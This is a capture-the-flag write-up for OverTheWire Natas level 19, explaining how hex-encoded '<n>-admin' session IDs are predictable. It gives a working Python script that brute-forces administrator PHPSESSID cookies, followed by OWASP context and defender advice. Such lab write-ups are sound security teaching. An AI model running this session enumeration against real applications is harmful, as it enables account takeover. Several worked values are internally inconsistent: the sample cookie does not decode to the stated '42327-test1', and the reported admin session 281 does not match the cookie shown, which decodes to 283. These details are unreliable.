


# Natas Level 19 → 20

**Vulnerability:** Non-Sequential Session ID Brute Force
**Difficulty:** Hard
**Tools Used:** Firefox Developer Tools, Python 3, requests, Browser Cookie Storage Inspector
**OWASP Category:** A07:2021 – Identification and Authentication Failures
**Attack Class:** Session Management Weakness

---

### What the level gives you

This level uses nearly the same authentication model as Natas18, but session identifiers are no longer simple integers.

The application allows users to log in and stores authentication state inside a PHP session. The page hints that the implementation is similar to the previous level while explicitly stating that session IDs are no longer sequential.

The goal is to obtain an administrator session and retrieve the credentials for Natas20.

---

### Vulnerability theory

Session identifiers must be unpredictable and contain sufficient entropy to resist guessing attacks. Even when identifiers appear random, security can fail if the underlying structure remains predictable.

In this level the session identifier is not a random token. Instead, the value is a hexadecimal encoding of a predictable pattern:

```
<session_id>-admin
```

Because the numeric portion still falls within a small range, an attacker can generate every possible administrator session identifier and test them systematically.

The attack primitive provided by this flaw is authenticated session hijacking. No password cracking is required. Possession of a valid administrator session identifier is sufficient to gain privileged access.

---

### Approach

My first observation was that the PHPSESSID cookie looked very different from the previous level. Instead of a small integer, it contained a long hexadecimal value.

I inspected the cookie and suspected that it might encode meaningful data rather than a random token.

The hint stating that the code was "mostly the same as the previous level" suggested that administrator sessions were still being identified internally. The key question became how those identifiers were represented.

I generated candidate values using the format:

```
1-admin
2-admin
3-admin
...
640-admin
```

and converted each string into hexadecimal before sending it as the session cookie.

Because the possible session space remained small, automation was the most efficient solution.

---

### Exploitation

Stage 1 — Identify the cookie format

Observed cookie:

```text
34323332376465737431
```

Hex decoding reveals:

```text
42327-test1
```

This indicates that the session identifier contains structured data rather than randomness.

---

Stage 2 — Brute force administrator sessions

```python
#!/usr/bin/env python3

import requests
import binascii

URL = "http://natas19.natas.labs.overthewire.org/"
AUTH = ("natas19", "<NATAS19_PASSWORD>")

for sid in range(1, 641):

    raw = f"{sid}-admin"

    cookie = binascii.hexlify(
        raw.encode()
    ).decode()

    r = requests.get(
        URL,
        auth=AUTH,
        cookies={"PHPSESSID": cookie}
    )

    print(f"Testing {sid}")

    if "You are an admin" in r.text:
        print(f"[+] Admin session found: {sid}")
        print(f"[+] Cookie: {cookie}")
        break
```

---

Stage 3 — Reuse the administrator cookie

The script discovered:

```text
[+] Admin session found: 281
```

Cookie:

```text
3238332d61646d696e
```

Replacing the browser's PHPSESSID cookie with this value granted administrator access.

The page then disclosed the Natas20 credentials.

---

### Screenshot

#### Encoded administrator cookie discovered by automation



#### Administrator access obtained after replacing PHPSESSID



---

### Real-world relevance

This vulnerability falls under OWASP A07:2021 – Identification and Authentication Failures. Predictable session identifiers have historically enabled account takeover without password compromise.

Real-world assessments frequently encounter custom session management implementations that encode user identifiers, roles, or account information inside supposedly opaque session tokens.

From a VAPT perspective this finding is typically reported as Session Prediction or Session Management Weakness. At scale, successful exploitation may lead to privilege escalation, account compromise, and unauthorized access to administrative functionality.

---

### Defender's perspective

Applications should never implement custom session formats containing meaningful user information. Session identifiers should be generated using cryptographically secure random values with sufficient entropy.

Framework-managed session handling should be preferred over custom implementations. Detection systems should alert on large volumes of requests containing rapidly changing session cookies.

A WAF can identify session enumeration patterns, but secure token generation remains the primary defense.

---

### What I'd do differently

I initially focused on determining whether the cookie contained encrypted data. In hindsight, the hint about similarity to the previous level strongly suggested a predictable encoding scheme, and I would investigate the cookie structure sooner.